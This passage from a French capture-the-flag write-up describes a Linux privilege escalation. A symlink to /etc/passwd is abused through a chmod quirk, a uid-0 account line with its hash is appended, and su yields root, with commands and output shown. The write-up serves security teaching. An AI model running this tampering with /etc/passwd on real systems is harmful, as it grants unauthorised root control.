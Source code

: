> chmod never changes the permissions of symbolic links; the chmod system call cannot change their permissions.  
> 
> This is not a problem since the permissions of symbolic links are never used.  
> 
> However, for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file.  
> 
> In contrast, chmod ignores symbolic links encountered during recursive directory traversals.

C'est assez clair :) On peut donc créer notre lien symbolique vers */etc/passwd* ou */etc/crontab*. Il faut éviter les fichiers sous */root* car ce dernier ne permet pas la traversée du dossier.  

```plain
www-data@rubbish:~/nginx$ ln -s /etc/passwd devloop.cgi
www-data@rubbish:~/nginx$ ls -l cgi-bin
lrwxrwxrwx 1 www-data www-data  11 Jan  5 04:22 devloop.cgi -> /etc/passwd
www-data@rubbish:~/nginx$ ls -l /etc/passwd
-rwxrwxrwx 1 root root 2545 Jan  3 21:18 /etc/passwd
```

Maintenant que l'on a les bonnes permissions on utilise ce one-liner pour générer un hash (*openssl passwd* fait aussi l'affaire)

```bash
python3 -c 'import crypt,getpass; print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'
```

On rajoute quelques infos autour du hash et on l'ajoute à */etc/passwd* :

```plain
www-data@rubbish:~/nginx$ echo 'devloop:$6$YbrFJJEvCx4..w5p$6kP2eYweyD4v.euBgC7lM9rOsHxWJA8u8dY2d0N3lneDXqeYqbzWMQ7QkOrmZW.3IrRBg.ObylQiAp.9JjNdQ/:0:0:devloop:/root:/bin/bash' >> /etc/passwd
www-data@rubbish:~/nginx$ su devloop
Password: thisisdope
root@rubbish:/var/www/nginx# id
uid=0(root) gid=0(root) groups=0(root)
```

Et voilà ! Un CTF avec de bonnes idées :) La solution raccourcie est presque dommage :|

*Published November 17 2020 at 14 55*
